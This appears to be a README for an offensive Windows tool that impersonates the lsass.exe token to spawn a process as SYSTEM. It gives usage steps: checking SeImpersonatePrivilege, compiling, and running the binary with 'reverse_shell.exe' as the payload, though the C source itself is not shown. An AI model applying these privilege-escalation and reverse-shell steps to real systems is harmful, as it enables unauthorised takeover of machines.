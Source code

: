 # Impersonator

Simple C code to impersonate th lsass.exe primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` privilege is required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
